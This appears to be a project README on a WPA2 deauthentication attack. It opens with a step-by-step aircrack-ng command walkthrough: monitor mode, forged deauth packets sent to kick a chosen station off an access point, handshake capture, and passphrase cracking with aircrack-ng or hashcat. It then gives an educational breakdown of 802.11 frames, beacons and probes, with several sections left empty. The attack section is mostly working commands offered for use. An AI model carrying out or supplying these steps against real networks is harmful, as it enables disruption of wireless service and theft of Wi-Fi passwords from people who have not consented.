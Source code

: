 # WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack

# Probes, Beacons, and Wifi Packets

To get stated analyzing this attack we need to look at exactly how one knows that an access point or AP is avaiable. After all this attack targets a single and deliberately chosen AP. The best way to start analyzing packets is with wireshark which can be installed with the `apt` mananger. One can run this `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>` followed by running wire shark on the outputted .cap file. In wireshark you can filter out alot of the noise on the channel with the filter `wlan.addr == <bssid> `.

# WIFI packet Basic Structure

```

-----------------------------------------------------------------
| FC | Dur | DA | SA | BSSID | Seq | A4 | QoS | HT | Body | FCS |
-----------------------------------------------------------------

```

* FC = Frame Control. Most importantly defines frame type and sub type. See [here](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* Dur = Duration. Usually denotes the amount requested or granted of airtime
* DA = Destination Address
* SA = Source Address
* BSSID = MAC of AP
* Seq = Sequence Number
* A4 = MAC 4 only present in frames between APs
* QoS = Quality of Service
* HT = High Throughput
* Body = Main body of packet
* FCS = CRC of packet including header

Each of these fields have drastically different meanings based on the type of frame of which there are 4 major types:

* Data
* Control
* Management
* Misc

Below we look at a very very small subset of the packet and their contents as it relates to this attack.

## Beacon

* Sent automatically by all acccess points at a regular interval.
* FC = 0x8000
    * This decodes to a frame of type Management and a subtype of beacon
* DA = ff:ff:ff:ff:ff:ff and SA=BSSID
* In a beacon frame rate of beacon frame sent is advertised
* Capabilites, SSID (the ascii name of the AP), Supported rates are all sent.
* To see this, do a dump with the `-e` flag targeting an AP: `sudo airodump-ng wlp5s0mon -e --bssid B6:FE:F4:C3:ED:EE -c 6 -w out`
* Open wire shark on the .cap file and you should see a butt load of beacons
* When scanning for APs listening for beacons is considered a passive scan

## Probe

* Deliberatley sent by the station (STA) to the AP aka an active AP scan
* FC = 0x4000
    * This decodes to a managment type with probe request sub type
* DA = ff:ff:ff:ff:ff:ff = BSSID
* SA = <sender MAC>
* The packet really only contains the STAs advertised rates and the ssid of a AP if the scan was targeted to an AP
* To capture these packets we just set the ESP32 deluminator to scan our home AP and dumped packets targeting that AP

## Authentication

## Deauthentication

## WPA2 EAPOL Frames

# Resources

* [Wiki on Wifi Frame](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* [Wiki on 802.11](https://en.wikipedia.org/wiki/IEEE_802.11#Layer_2_%E2%80%93_Datagrams)
